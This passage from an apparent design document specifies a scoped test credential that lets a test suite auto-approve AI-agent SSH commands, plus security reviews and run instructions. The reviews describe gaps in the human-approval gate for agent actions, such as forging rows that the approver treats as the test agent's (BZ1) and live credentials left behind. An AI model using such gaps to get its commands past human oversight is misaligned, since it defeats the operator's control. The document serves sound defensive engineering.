    session belongs to an agent marked `test_agent=1` (a new policy flag,
    set only by the operator), and the session goal starts `E2E:`.
  * Its other permissions: read that agent's rows, exclude that agent's
    sessions, reject that agent's conclusion drafts, delete window requests
    that agent made, and revoke allowances on that agent.
  * It can do nothing else: no policy, gateway, settings, fleet or freeze
    route. A test proves each refusal.
  * This answers security's questions 1, 2, 7 and 9, and it is the one
    product change the suite needs.
* **CA3 (must): the test agent fails closed.**
  * The preflight requires `test_agent=1` on the token's agent (finding 4).
  * The preflight requires the existing guard: exactly one IP in
    `ssh_hosts_allow`.
  * A `test_agent` can never be shown more than one SSH host. The policy
    save refuses `*` or a second entry when the flag is set.
* **CA4 (should): window requests record who asked (finding 3).** Add
  `session_id` and `agent_id` to `approved_windows` (an additive
  migration), filled from the agent token on `POST /api/window-requests`.
  The approver rule then works the same way as for requests.
* **CA5 (should): exclusion covers integration calls (finding 5).** Add
  `excluded` to `integration_calls` and extend F8's exclude endpoint and
  the statistics queries. Test traffic must not skew the live statistics
  or F6's allowance bucket.
* **CA6: cases.**
  * **Drop C14 (fleet)** for v1. A fleet command is an operator action
    outside a session, and CA2's token cannot dispatch one. Fleet is
    covered when the operator does Deploy to Fleet.
  * **Keep C1 with `ssh_mode=normal`** (finding 1) on the test agent, with
    one allowlisted read command. The operator sets that.
  * **C11 (window)** needs a key for `eshu-gateway@` on the dev gateway
    (finding 2). Make it opt-in (`ESHU_E2E_GATEWAY_SSH_KEY`), SKIP without
    it, and wait for security's answer to question 3.
  * **Add C16, `installer-hash`.** The test gateway's reported installer
    hash equals the Edge channel's hash (`/api/dev/status`). That is the
    check the operator now does by eye.
* **CA7: ids in output are fine** (question 10). They are not secrets, and
  the suite's output stays on the reviewer's machine. Never print values,
  outputs or hostnames.
* **Order.** Security answers the open questions and CA2–CA5. Then:
  1. Code round 1: CA2–CA5, with server tests.
  2. Code round 2: the suite (`scripts/e2e/run.py`) and its unit tests,
     against `TestClient`.
  3. A first real run by the main reviewer, on the operator's go-ahead.

### Security review of the design (2026-11-17)

**Verdict: approved for code round 1 once BY1–BY4 are folded into the
design.** CA1–CA7 are agreed, with the changes below. CA2 is the right
shape: a scoped, server-checked credential instead of the dashboard
password.

**What the suite is, stated plainly.** The test agent's token and the test
approver token sit on the same machine and are used by the same process.
Together they let that process run commands on the dev gateway without a
human seeing them. The dev gateway is a real host on the operator's
network, and the gateway runs approved commands as root. The boundary must
therefore make "no human" mean "these few read-only commands on this one
host". It must not mean "anything the test agent asks for".

**BY1 (must): bind each decision to the agent that made the row, not to
the session id or the goal.**
* `requests` has no agent column: it carries the `session_id` the agent
  passed. `sessions.agent` is a name. Names can be renamed and can repeat.
* Record `agent_id` on every new `requests`, `session_plans`,
  `integration_calls` and (CA4) `approved_windows` row, taken from the
  verified token when the row is created. This is additive, and old rows
  get 0.
* The approver token may decide a row only when all of these hold:
  * the row's `agent_id` is the token's own agent;
  * the row's `session_id` is a session that was opened by that same agent
    id;
  * that agent is `test_agent=1`.
* A row with `agent_id=0` is always refused. The `E2E:` goal is an extra
  check, not the boundary, because the agent writes the goal itself.
* **Mint the token for one agent id,** not for "any `test_agent=1` agent".
  Setting `test_agent=1` on a second agent must not widen a token that
  already exists.

**BY2 (must): the approver approves a fixed list of commands, never "any
command from the test agent".**
* When the operator mints the token, they also store the suite's command
  list, as exact bytes (the case constants: `hostname`, `id -un`,
  `printf e2e-…`, `cat /etc/hostname`, the plan and window commands).
* Approving an SSH request, a plan item or a window is refused unless the
  command matches a list entry byte for byte and the host is the test
  gateway's IP.
* Probe plans are allowed only for the named probe templates
  (`diagnose_service` with `unit=ssh`, `disk_pressure`).
* With the list, a leaked pair of tokens gets read-only commands on one
  host. Without it, the pair gets root on a LAN host.
* A deny needs no list: the token may deny any row that passes BY1.

**BY3 (must): the token's reach, besides the BY1 and BY2 checks.**
* **Allowed:**
  * plain approve or deny on the SSH request, session plan and
    window-request routes;
  * deny only on integration calls;
  * read-only access to its own agent's rows, sessions and plans;
  * the five clean-up actions CA2 names, each limited to its own agent's
    rows;
  * one read for C16: the Edge channel's installer hash and the test
    gateway's reported hash. Give C16 its own narrow read route; do not
    grant `/api/dev/status`.
* **Refused** (with a test for each refusal):
  * every approve variant except the plain one: approve plus allowlist or
    learn, edit-then-approve, a host override, a longer TTL than the
    default, or removing plan items (`removed_item_ids` must be empty);
  * approving an integration call;
  * creating, editing or toggling a window (`/api/approved-windows*`). It
    may approve only a pending agent request, and that request must name
    exactly the test gateway, use `match_type=exact`, set
    `max_executions=1`, and expire within 15 minutes;
  * any decision while the fleet is frozen, or while a session guard or
    kill switch is on. It does not override the operator's stop;
  * every route outside the list above: policy, agents, tokens, gateways,
    integrations, settings, notify, fleet, freeze, installer channels,
    statistics writes, F27 ceiling and allowance creation, and
    conclusions other than rejecting its own agent's draft;
  * `/mcp`, the gateway routes, and `POST /api/window-requests`. It is not
    an agent or a gateway credential, and an agent token is not accepted
    in its place;
  * minting, rotating or revoking approver tokens.
* **The token itself:**
  * it has its own prefix;
  * only its hash is stored;
  * it is shown once and accepted only as `Authorization: Bearer` on the
    listed routes. A cookie never carries it, so CSRF does not apply. A
    browser session never gains its powers;
  * it expires after at most 30 days;
  * it has its own rate limit, and failed attempts are rate-limited and
    audited;
  * every decision is audited as `e2e-approver` with the token id.
* **Notify the operator** when a token is minted, and when `test_agent=1`
  is set on any agent. Those are the two widening events.

**BY4 (must): `test_agent=1` is the operator's switch, and it narrows.**
* CA3 is agreed: when the flag is set, the policy save refuses `*`,
  anything but one IP, or a hostname.
* Also, with the flag set, the save refuses:
  * `ungated` approval modes;
  * any integration other than HA reads plus `call_service` on the
    allowance case;
  * an agent that was not created as a test agent (no flipping a working
    agent's flag).
* Clearing the flag revokes that agent's approver tokens.

**Answers to the ten questions.**
1. **Credential:** CA2's scoped token with BY1–BY3. Do not use the
   dashboard password. Minting is in Settings, the token is shown once, it
   expires after at most 30 days, rotation means minting a new token and
   revoking the old one, revocation takes effect at once, and both events
   are audited and notified.
2. **Own session:** enforced by the server, by agent id on the row (BY1).
   Reading the goal is not enough, because the agent writes the goal. No
   `X-Eshu-E2E-Session` header is needed: the token's agent id is the
   scope.
3. **Window case (C11):** acceptable as opt-in. It SKIPs without the key,
   and it needs CA4.
   * The key goes only into the dev gateway's `eshu-gateway`
     `authorized_keys`, with `restrict` and a `from=` limited to the
     reviewer's address.
   * The key file on the reviewer's machine is 0600.
   * Revoking it is one documented line.
   * S1 is not relaxed, and no signed window path is added.
   * The window limits in BY3 apply.
   * If CA4 is not in, skip C11.
4. **Window attribution (CA4):** yes. It is a must whenever C11 runs.
   Record `agent_id` (BY1) and `session_id` from the verified token. The
   agent-facing request keeps its shape: the server fills both fields, and
   values the client sends are ignored.
5. **`ssh_mode=normal`:** acceptable for the test agent with exactly one
   IP. It means the global allowlist runs without a card on that one host,
   which is what every normal-mode agent already gets. C1 stays.
6. **Fleet:** dropping C14 is agreed (CA6). The token cannot dispatch fleet
   commands, and that refusal has a test.
7. **Remote target:** CA1 makes the live dashboard the target, so a
   "throwaway" marker means nothing. The protection is the token's scope.
   Two requirements remain:
   * a non-loopback base URL must be `https://` (refuse `http://`: two
     bearer tokens would cross the network in clear);
   * `ESHU_E2E_ALLOW_REMOTE=1` and the printed banner stay.
8. **Retention:** keep the evidence and do not add a purge. A test-only
   delete of audit or request rows is a tool for erasing history. CA5's
   `excluded` keeps the statistics clean, and the rejected conclusion and
   the revoked allowance stay as the record.
9. **Rate limits:** there is no login. The token has its own limit, and
   failed attempts are limited and audited. The suite uses one token per
   run.
10. **Output:** ids are fine (CA7). Never print command output, the
    session goal text, the entity ids, hostnames, or any token or key
    path.

**Smaller points for the design.**
* **Token files:** refuse a group- or world-readable file on every target,
  not just warn on loopback. It is the live dashboard now.
* **C15 (allowance):** creating an allowance is outside the token's reach
  (BY3). The operator creates the test agent's allowance once, by hand,
  and the suite only uses it. Revoking it in clean-up is then also an
  operator step. Alternatively, drop clean-up step 6 and leave a
  standing, rate-limited allowance on the test agent's one entity. I
  prefer the standing allowance, because the suite then never widens
  anything.
* **The watcher thread for `wait=true`** must apply the same BY1 and BY2
  checks on the server. It is the same token, so this only needs saying in
  the unit tests: the watcher's approve goes through the same route.
* **Clean-up order:** revoke nothing the suite did not create, and stop
  clean-up at the first BY refusal rather than retrying with anything
  wider.

Re-read scope for code round 1: the token table and the auth path, the BY1
columns and checks, the command-list match, every refusal test in BY3, the
`test_agent` save rules, CA4 and CA5.

### Design fold for code round 1 (2026-11-17)

**Security's note at `b8fe0ce` wins over the earlier design where they
differ. This section folds BY1–BY4 and the ten answers; it is the design code
round 1 implements.**

**The approver token (CA2 + BY1–BY3).** A new, separate credential, not the
dashboard password and not an agent token.
* Minted by the operator in Settings/Agents for **one agent id**; it is
  shown once, stored only as a SHA-256 hash, prefixed `e2e_`, accepted only as
  `Authorization: Bearer`, never via a cookie, and expires after at most 30
  days. Revocation takes effect at once.
* It carries an exact command list (bytes) and the one test gateway's IP,
  stored at minting time.
* Its own rate limit; failed attempts are rate-limited and audited. Every
  decision is audited as `e2e-approver` with the token id.
* Minting a token and setting `test_agent=1` both notify the operator.
* Clearing `test_agent` revokes that agent's approver tokens.

**BY1 — decisions bind to the agent id, not the session id or goal.**
`requests`, `session_plans`, `integration_calls`, `pending_integration_calls`
and `approved_windows` gain `agent_id` (additive; old rows 0), written from the
verified token/context when the row is created. `sessions` also records the
opening `agent_id`. The approver may decide a row only when:
* the row's `agent_id` is the token's agent;
* the row's `session_id` names a session with that same `agent_id`;
* that agent is `test_agent=1`;
* the `E2E:` goal check also passes (an extra check, not the boundary).
A row with `agent_id=0` is refused. The token is minted for one agent, so
marking a second agent `test_agent` cannot widen it.

**BY2 — a fixed command list, byte-exact, on one gateway.**
* Minting stores the suite's exact commands (`hostname`, `id -un`,
  `printf e2e-…`, `cat /etc/hostname`, the plan and window commands).
* An SSH request, plan item or window is approved only when its command is
  byte-identical to an entry **and** its host is the stored test gateway.
* Probe plans are allowed only for `diagnose_service` with `unit=ssh` and
  `disk_pressure`; other probes/plans are refused.
* A deny needs no list: the token may deny any row that passes BY1.

**BY3 — the token's reach.**
* **Allowed:** plain approve/deny on SSH requests; plain approve/deny on
  session plans (default TTL, no `removed_item_ids`); approve/deny on a
  pending agent window request; deny only on integration calls; read-only
  access to the token agent's own rows, sessions, plans and calls; exclude its
  own sessions; reject its own agent's conclusion draft; delete window
  requests that agent made; revoke allowances on that agent; and one narrow
  read route for C16 returning the Edge hash and that gateway's reported hash.
* **Window approval is narrow:** the row is that agent's own pending request,
  names exactly the test gateway, uses `match_type=exact`,
  `max_executions=1`, and expires within 15 minutes. The command must be in
  the list. The window token is stored hashed, shown once, accepted only as a
  bearer header, has its own rate limit, and failed uses are rate-limited and
  audited.
* **Refused, each with a test:** every other approve variant (allowlist/learn,
  edit-then-approve, host override, non-default TTL, non-empty
  `removed_item_ids`); approving an integration call; creating, editing or
  toggling windows; any decision while frozen or while a session guard/kill
  switch is on; policy, agents, tokens, gateways, integrations, settings,
  notify, fleet, freeze, installer channels, statistics writes, F27 ceiling/
  allowance creation, conclusions other than rejecting its own draft; `/mcp`;
  gateway routes; `POST /api/window-requests`; and minting/revoking approver
  tokens themselves.

**BY4 — `test_agent=1` is operator-only and narrows.**
* Set only on an agent with no recorded session, request or call. When set,
  the policy save refuses `*`, more than one host, any hostname, `ungated`
  approval modes, and any tool except HA reads plus `call_service`; the agent
  must be an allowlist agent. `ssh_mode=normal` with exactly one IP is
  allowed (C1). Clearing the flag revokes that agent's approver tokens and is
  audited/notified.

**Folded answers.**
1. Credential is CA2's scoped token; mint/rotate/revoke in Settings, max 30
   days, audited and notified.
2. Own session is server-enforced by agent id; no extra session header.
3. C11 is opt-in: it SKIPs without `ESHU_E2E_GATEWAY_SSH_KEY` or without
   CA4. The key is limited to `eshu-gateway@` on the dev gateway with
   `restrict`/`from=`, 0600 on the reviewer's machine, revoked with one line;
   S1 is not relaxed.
4. CA4: yes — `approved_windows` gains `session_id` and `agent_id`, filled by
   the server from the verified token/session; client-sent ids are ignored.
5. `ssh_mode=normal` is accepted for the one-IP test agent.
6. C14 (fleet) is dropped; the token cannot dispatch fleet commands.
7. A non-loopback base URL must be `https://`; `http://` is refused.
8. Keep the evidence; no purge. CA5's `excluded` keeps statistics clean.
9. No login; one token per run, own rate limit, failed attempts limited and
   audited.
10. Ids are fine in output; never print command output, goal text, entity
    ids, hostnames, tokens or key paths.

**Smaller points folded.**
* Token files are refused when group/world-readable on **every** target, not
  warned on loopback.
* C15 uses an operator-made standing allowance on the test agent's one
  entity; the suite only uses it. Clean-up revokes nothing the suite did not
  create and stops at the first BY refusal.
* The `wait=true` watcher uses the same approver route and therefore the same
  BY1/BY2 checks; its unit test asserts that.
* C16 gets its own narrow read route, not `/api/dev/status`.

**Round split.** Round 1 is the server: the token table/auth path, the BY1
columns/checks, the fixed command list, every BY3 refusal test, the
`test_agent` save rules, CA4/CA5 and the UI. Round 2 is the suite
(`scripts/e2e/run.py`, `tests/test_e2e_smoke.py`) and starts only after
Security approves round 1.

### How to run (code round 2)

The suite is run by the main reviewer from a machine that reaches the
dashboard through an SSH tunnel, so the URL is loopback:

```
ssh -L 8000:127.0.0.1:8000 <dashboard-host>
export ESHU_E2E_BASE_URL=http://127.0.0.1:8000
python3 scripts/e2e/run.py --list       # cases, no connection
python3 scripts/e2e/run.py              # all cases
python3 scripts/e2e/run.py --case C2    # one case
python3 scripts/e2e/run.py --json       # the same rows as JSON
```

The two token files must be regular files, non-empty and `0600`. The
approver token is minted in Settings → Agents for the one `test_agent=1`
agent, with these exact commands, one per line (BY2):

```
hostname
id -un
printf e2e-deny
cat /etc/hostname
printf e2e-plan
printf e2e-plan-a
printf e2e-plan-b
printf e2e-wait
printf e2e-window
```

Probe plans (`diagnose_service` with `unit=ssh`, `disk_pressure`) are allowed
by template, not by this list. The test agent must use `ssh_mode=normal`,
`tools_mode=allowlist`, and exactly one IP in `ssh_hosts_allow`; the suite
refuses anything wider before it runs a case. C15 uses a standing,
operator-made allowance: no allowance is created or revoked by the suite.

| Variable | Required | Meaning |
|---|---|---|
| `ESHU_E2E_AGENT_TOKEN_FILE` | yes | Agent bearer token, mode `0600`. |
| `ESHU_E2E_APPROVER_TOKEN_FILE` | yes | `e2e_` approver token, mode `0600`. Never a password. |
| `ESHU_E2E_GATEWAY` | yes | The one test gateway, as an IP. |
| `ESHU_E2E_BASE_URL` | no | Default `http://127.0.0.1:8000`. A non-loopback URL **must** be `https://` and also needs `ESHU_E2E_ALLOW_REMOTE=1`; plain `http://` to a remote host is refused. |
| `ESHU_E2E_GATEWAY_SSH_KEY` | for C11 | Key for `eshu-gateway@<gateway>`, mode `0600`; C11 skips without it. |
| `ESHU_E2E_GATEWAY_SSH_USER` | no | Default `eshu-gateway`. |
| `ESHU_E2E_DNS_NAME` | for C12 | The seeded Pi-hole name; C12 skips without it. |
| `ESHU_E2E_ALLOWANCE_ENTITY` | for C15 | The entity the standing allowance covers. |
| `ESHU_E2E_ALLOWANCE_OTHER_ENTITY` | for C15 | A second entity the allowance does **not** cover. |
| `ESHU_E2E_CASE` | no | Run one case by id. |
| `ESHU_E2E_KEEP` | no | `1` skips cleanup. |

The table prints case ids, request/plan/window ids and a short reason. It
never prints command output, the goal text, entity ids, hostnames, tokens or
key paths. The same suite applies BY1/BY2 in the `wait=true` watcher; the
server is still the boundary.


### Implementer notes — code round 1 (2026-11-17)

**Status: round 1 server + UI + tests are in on `feat/e2e-smoke`; this stops
for Security's read. Round 2 (the suite) is not started.**

**BY1 — agent-id provenance.** Additive `agent_id` columns on `requests`,
`session_plans`, `integration_calls`, `pending_integration_calls`,
`approved_windows` and `sessions` (old rows 0). Agent-token rows take the id
from the verified current agent; gateway-created SSH rows take it only when
the forwarded verified agent name matches the session's agent id (BZ1), so a
session id alone records 0. Plans/calls/windows take it from the verified
token/context. A row with `agent_id=0` is always
refused by the approver. The approver check is row `agent_id` = token agent,
row `session_id` = a session with that same `agent_id`, that agent is
`test_agent=1`, and the goal starts `E2E:` (the extra check, not the boundary).
Minting binds one agent id; a second test agent cannot widen an existing token.

**BY2 — the fixed list and gateway.** `approver_tokens` stores the exact
command bytes and the one test gateway at mint time. SSH request approve,
plan approve and window approve all require a byte-exact command and that
gateway; a deny requires neither. Agent plan items must be SSH items on the
gateway with a listed command. Probe plans are allowed only for
`diagnose_service(unit=ssh)` and `disk_pressure`. Other approve variants
(a body on approve/deny, `removed_item_ids`, or a non-default plan TTL) are
refused for the approver.

**BY3 — the token and its reach.** The approver token is `e2e_` + 64 hex,
only its SHA-256 hash is stored, it is shown once, accepted only as
`Authorization: Bearer`, and expires after at most 30 days. The window token
is not changed: it is the existing gateway-distributed credential
(`/etc/eshu-windows.txt`, env/argv on the direct SSH path), not a bearer
header; hashing it would break that distribution. The BY3 "stored hashed,
shown once, bearer header" sentence applies to the approver token. A middleware
allows only the listed route set and refuses everything else before the
handler (including `/mcp`, gateway routes, policy/agents/tokens/gateways/
settings/notifications/fleet/freeze/installer/dev/F27/statistics writes and
approver-token minting/revoking). Every refusal is audited as
`e2e-approver` with the token id; valid requests have their own 120/min
bucket. Decisions are audited with the token id and actor `e2e-approver`.
* Window approve is narrow: the agent's own pending request, exact match,
  one execution, expiry within 15 minutes, listed command, test gateway.
* Cleanup is limited to its own agent: exclude its session (CA5 also marks
  proxied calls), reject its draft, delete its window request. The operator
  creates the standing C15 allowance; this branch has no F27 allowance route
  (`feat/e2e-smoke` predates it), so the revoke-allowance action is not
  present here and C15 will run only after F27 merges.
* C16 has its own read route (`GET /api/e2e/installer-hash`): the Edge hash
  and that test gateway's reported hash, no `/api/dev/status`.

**BY4 — `test_agent`.** Operator-only `POST /api/agents/{id}/test-agent`.
It cannot be set on an agent with any recorded session, request or call.
When set, the policy save refuses `*`, more than one host, a hostname,
`ungated` approval, `tools_mode=all`, and any tool other than HA reads plus
`call_service`. Clearing it revokes the agent's approver tokens. Minting a
token and enabling the flag both notify the operator.

**CA4/CA5.** `approved_windows` gains `session_id`/`agent_id`; the agent
window request takes both from the verified token/session (the client cannot
set `agent_id`). `integration_calls` gains `excluded`; the F8 exclude
endpoint now marks the session's requests and calls, and the health, session
summary, coverage and web-fetch statistics skip excluded calls. History still
shows the rows.

**UI.** The agent detail page gains a Test agent switch and an Approver
tokens card (exact commands one per line, test gateway, days, mint, shown
once, list with revoke). All fields go through `esc()`; a Node check asserts
the row escapes ``/`<script>` in the gateway and commands.

**Tests.** `tests/test_e2e_approver.py` (53 tests) covers the token/hash/
expiry, BY1 ownership and refusals, the command/gateway list, plan and probe
variants, integration-call approve-refused/deny-allowed, the narrow window,
create/edit/toggle refusals, cleanup, route refusals, freeze, test-agent
narrowing/activity/revocation/notify, CA4/CA5 and C16. Each is against the
real FastAPI app; no network.

### Security re-read of code round 1 at `d213974` (2026-11-17)

**Verdict: approved. Code round 2 (the suite) can start.** BY1–BY4, CA4 and
CA5 are in. Two shoulds (BZ1, BZ2) and two nits follow.

**What holds.**
* **The token.**
  * It has the `e2e_` prefix, only its SHA-256 hash is stored, and it is
    shown once.
  * It expires after 1–30 days, is revocable, and is minted only for an
    agent that already has `test_agent=1`, on a registered gateway, with an
    exact one-line command list.
  * The middleware resolves it before any handler and refuses every route
    outside `_ALLOWED` (403, audited). An invalid or expired token gets a
    401.
  * It has its own `approver` rate-limit bucket.
  * A cookie never carries it. When a cookie and the token arrive together,
    the token's narrower scope wins.
  * `/mcp` and the gateway routes are refused, and there are tests for
    both.
* **BY1.** `agent_id` is recorded on sessions (from the verified token at
  `session_begin`), on plans, on pending and finished integration calls,
  and on window requests. A window's `session_id` is checked against the
  agent that sent it. Every decision route checks three things: the row's
  agent id equals the token's, the session was opened by that agent id
  with an `E2E:` goal, and the agent is still live and a test agent. A row
  with agent id 0 is refused.
* **BY2.**
  * Approve needs an exact command match and the token's gateway.
  * Plan approval refuses: removed items, a TTL other than the default,
    any item off the gateway, non-SSH items, unlisted commands, and probes
    other than `diagnose_service(unit=ssh)` and `disk_pressure` on the
    gateway.
  * Deny needs only the ownership check.
* **BY3.**
  * A body on approve or deny is refused.
  * Integration calls are deny only.
  * Window approval needs `exact`, a single execution, an expiry within 15
    minutes, the gateway, a listed command and its own session.
    Create, edit and toggle are refused.
  * Every decision is refused while the fleet is frozen.
  * The reads are scoped: requests, calls, plans and session detail need
    the token's own session. `/api/agents` returns only its agent.
    `/api/agents/{id}/activity` serves only that agent. The pending calls
    are filtered.
  * C16 has its own route, pinned to the token's gateway.
  * Exclude takes a session only, never an id list. Reject-conclusion
    checks the session and the agent. Window delete checks the agent.
* **BY4.**
  * The flag forces one IP, no `ungated` mode, and an allowlist of HA
    reads plus `call_service`.
  * The flag can be set only on an agent with no activity, and a missing
    column counts as activity.
  * The general policy save keeps these checks, because they live in
    `set_agent_policy`.
  * Clearing the flag revokes the agent's tokens.
  * Setting the flag and minting a token both notify.
* **CA5.** `integration_calls.excluded` is set by the session exclude and
  honoured by the session summary, the coverage figures and the statistics
  queries.

**BZ1 (should): an SSH row's agent id comes from the forwarded session id,
not from a verified agent.**
* `/api/request` runs with no agent context, so `_request_agent_id` falls
  back to `sessions.agent_id` for the `session_id` the gateway forwarded.
* The gateway accepts that id in two ways:
  * with a session signature alone, with no agent signature
    (`ESHU_VERIFIED_AGENT` is empty);
  * with nothing at all while it has no session key yet ("SESSION KEY
    MISSING: allowing").
* Anyone who can SSH to the test gateway as `eshu-gateway`, holding the
  E2E session's prefix (or with no session key on the gateway yet), can
  therefore create a row that the approver treats as the test agent's.
* BY2 limits the damage to listed commands on that one gateway, and the
  C11 key is held by the same principal. That is why this is a should.
  Still, it puts the session id back as the boundary, which is what BY1
  removed.
* **Fix:**
  * On a gateway-posted row, set `agent_id` only when the forwarded
    `agent` (the gateway's `ESHU_VERIFIED_AGENT`) is non-empty and resolves
    to the same id as the session's `agent_id`. Otherwise record 0, which
    the approver refuses.
  * Test it: a row with the E2E session id and an empty `agent` is refused.

**BZ2 (should): limit invalid-token attempts.**
* A bearer value with the `e2e_` prefix that does not resolve writes an
  audit row on every request, with no rate limit. BY3 asked for both.
  This is the same pattern as the X9 hit throttle: an anonymous caller can
  force a write per request.
* **Fix:**
  * Run `_check_rate_limit(client_ip, kind='approver')` before the lookup.
  * Write at most one `e2e_approver_refused` row a minute per client IP.

**Nits.**
* **The `/api/allowances/\d+/revoke` route.** It is in `_ALLOWED`, but this
  branch has no such handler, and F27's handler uses `_check_session`. It
  fails closed today. When F27 and E2E-1 meet, either drop the route (my
  answer prefers a standing, operator-made allowance) or give it
  `_decision_auth` with the agent-id check. Do not leave it to
  `_check_session`.
* **The minted gateway.** The minted `gateway_ip` is not compared with the
  test agent's one `ssh_hosts_allow` entry. A mismatch fails closed
  (nothing can be approved), but refusing it at mint time gives a clearer
  error.
* **Pre-existing, outside this chunk.** `window_request_approved` and
  `window_deleted` write the window token into the audit details
  (`token=...`). Audit rows are not the place for a live credential. This
  belongs on the backlog.

Re-read scope for code round 2: the suite's preflight refusals (file modes
on every target, `https://` for a non-loopback URL, `test_agent=1`, one IP),
the redaction tests, and clean-up ordering.

### Implementer notes — code round 2 (2026-11-17)

**Status: BZ1, BZ2, the two nits, the merge-order filter and the suite are in
on `feat/e2e-smoke`. This stops for Security's read of BZ1, BZ2 and round 2.**

**Merge.** `origin/master` at `974faef` (F27, X10 and the inventory fix) is
merged in. F27's two `allowance:%` queries now carry
`COALESCE(excluded, 0) = 0`: the statistics series in `main.py` and the
session card in `db/sessions.py`. `tests/test_f27_f6.py` proves an excluded
allowance run counts zero in both.

**BZ1 — verified agent provenance.** A gateway-posted row records `agent_id`
only when the forwarded `agent` is non-empty, resolves to a live agent, and
that agent is the `agent_id` of the session the row names. A session
signature alone, no session key on the gateway yet, an unknown/revoked agent,
or a mismatched agent all record 0. The rule is applied in `/api/request`
(including the encoded-block, check, plan, session-override, read-lane, host
override and pending paths) and in `/api/log`; `approve_unattended` takes the
verified id. Tests in `TestBz1` cover the matching name, an empty/absent
`agent` (both refused by the approver) and a mismatched agent.

**BZ2 — invalid-token throttle.** The `approver` IP bucket is checked before
the token lookup. An invalid `e2e_` value writes at most one
`e2e_approver_refused` row per client IP per minute; over the bucket returns
429 with no audit write. `tests/test_e2e_approver.py::TestBz2` covers both.

**Nits.** The allowance revoke route now uses `_decision_auth`: the approver
may revoke only an allowance whose `agent_id` is its own, never create or
edit, and a refusal is audited. The operator session path is unchanged.
Minting refuses a `gateway_ip` that is not the test agent's one
`ssh_hosts_allow` entry. Tests cover both.

**Round 2 — `scripts/e2e/run.py`.** Configuration is env + files only; no
password. The operator is the `e2e_` approver token. `Config` refuses
missing/empty/symlink/group-or-world-readable token files, a non-loopback
`http://` URL, a remote URL without `ESHU_E2E_ALLOW_REMOTE=1`, a gateway that
is not one IP, and an SSH key that is readable by the group/world. Preflight
requires exactly one `test_agent=1` agent, `ssh_mode=normal`,
`tools_mode=allowlist`, exactly the one gateway IP, a readable session and
the C16 read. The suite covers C1–C11, C12 (SKIP without a DNS name), C13
(SKIP without HA), C15 (SKIP without the standing allowance entities) and
C16; C14 stays dropped. `wait=true` runs a watcher that uses the same
`Approver` object and the same approve route (BY1/BY2). The table and JSON
print ids and fixed reasons only; `redact()` is a second boundary for
tokens, hosts, commands and entity ids. Clean-up denies pending
requests/plans/calls, concludes, rejects its draft, excludes the session and
deletes its window; it stops at the first BY refusal and revokes no
allowance.

**Unit tests.** `tests/test_e2e_smoke.py` covers the config refusals, the
test-agent guard, the pure approver (own/foreign/zero/command/window), the
redaction, the clean-up order and its stop-on-refusal, the watcher's
own-row-only behaviour, and the real `Operator` path against `TestClient`
(only the own row moves). No socket, no uvicorn, no real gateway.


### Security review of BZ1, BZ2 and code round 2 (security reviewer, 2026-11-17, at `cec1186`)

**Approved. The suite can be run.** Code text read only; nothing was run.
The one should below fixes the clean-up order and is small.

**BZ1 is confirmed.**
* A gateway row now gets an agent id only from `_verified_gateway_agent_id`.
  The gateway fills `agent` from `ESHU_VERIFIED_AGENT`. The gateway sets
  that variable only after the v1/v2 MAC passes, and the MAC covers both
  the agent name and the session id.
* The dashboard then requires a live, unrevoked agent of that name, and
  requires that agent to be the one that opened the signed session.
* A session signature alone, or a gateway without its session key, gives
  an empty name, so the row records 0 and the approver refuses it.
* Every `create_request` path in `receive_request` passes the id, and so
  does `receive_log`. The three cases are tested.

**BZ2 is confirmed.**
* The per-IP `approver` bucket (120 a minute) runs before the token
  lookup.
* An invalid token writes at most one refusal row per IP per minute.
* Both behaviours are tested.

**The round-1 nits are done.**
* The allowance-revoke route now accepts the approver only for its own
  test agent's allowance, and audits a refusal.
* Minting refuses a gateway that is not the agent's one `ssh_hosts_allow`
  entry.
* Both of F27's `allowance:%` queries filter out excluded calls. This
  settles the merge note.

**The suite holds the round-2 checks.**
* **Preflight.**
  * Each token file and the SSH key must be a regular file, not a
    symlink, and must not be readable by group or others.
  * A non-loopback URL needs both `https` and `ESHU_E2E_ALLOW_REMOTE=1`.
  * The URL cannot carry credentials, a query or a fragment.
  * The gateway must be a single IP.
  * The approver token must resolve to exactly one agent with
    `test_agent=1`, `ssh_mode=normal`, an allowlist and exactly that one
    host.
  * The session goal must start with `E2E:`.
* **The client mirror.** The suite's own `Approver` mirror of BY1/BY2
  never approves a row it would refuse, and the waiter skips foreign rows.
  The server is still the boundary.
* **Redaction.** `redact` strips the tokens, the key path, the gateway,
  the DNS name, the entity ids and the suite commands, plus any
  `token|password|key=` pair. The table carries only ids.
* **Clean-up.**
  * The order is: deny pending, deny proposed plans, deny pending calls,
    conclude and reject, exclude, delete the window, check that nothing
    remains.
  * It stops at the first BY refusal and never falls back to a wider
    credential.

**CB2 (should): revoke the live window first, and always.**
* The C11 window is a live credential from its approval until it is
  deleted or spent.
* `cleanup()` deletes it last, and returns before reaching that step when
  any deny is refused. `--keep` skips clean-up entirely. A run that fails
  between "approve window" and its first use therefore leaves an approved
  window for up to ten minutes.
* That window covers a harmless constant, but the clean-up order should
  not depend on that.
* **Fix:**
  * Delete the window before the deny loop, in its own `try`.
  * Do it even under `--keep`: keep the rows for debugging, not the
    credential.
  * When preflight fails after `session_begin`, run the same short
    clean-up (exclude the session), so a refused run does not leave an
    `E2E:` session counting in the statistics.

**Nits:**
* **The token-file prefix.** Refuse to start unless the approver token
  matches `^e2e_`, and unless it differs from the agent token. A wrong
  file then fails at preflight with a clear message, not part-way through.
* **The window token in a URL.** C11 reads `/api/window-by-token/<token>`.
  The token is spent by then, but the path lands in the access log. Read
  `execution_count` through the approver's own window route instead.
  Alternatively, accept the token in a POST body, as BJ2 does for the
  claim.
* **Host-key checking.** `WindowRunner` uses
  `StrictHostKeyChecking=accept-new`, so the first run trusts any host
  key. Take a known-hosts file from the environment, held to the same
  file-mode rules, and use `StrictHostKeyChecking=yes` and
  `IdentitiesOnly=yes`. The window token also sits in the local `ssh`
  argv for the length of the call. That is acceptable on a single-user
  machine; say so in the how-to.
* **Gateway script check.** Run C16 (installer hash equals Edge) as part
  of preflight, not last. BZ1 relies on the gateway forwarding only a
  verified name. The approver should decide nothing on a test gateway
  running an older script.
* **BZ2 details.**
  * The IP bucket also counts valid approver traffic. C5's waiter polls
    twice a second, which on its own is close to 120 a minute. Raise the
    IP bucket above the per-token one, or count only invalid tokens in it.
  * `_invalid_approver_audit` is never pruned. Drop entries older than
    the window when an entry is written.

## 7. Backlog (not planned in detail)

* Deny with a reason, shown to the agent (cheap; low value given the data).
* Multiple SSH keys tagged per agent (superseded by F12, kept only as a fallback idea).
* Gateway tags, with policy / freeze / Fleet Run per tag.
* Approve/deny from a phone notification (Web Push via the existing PWA, or ntfy) —
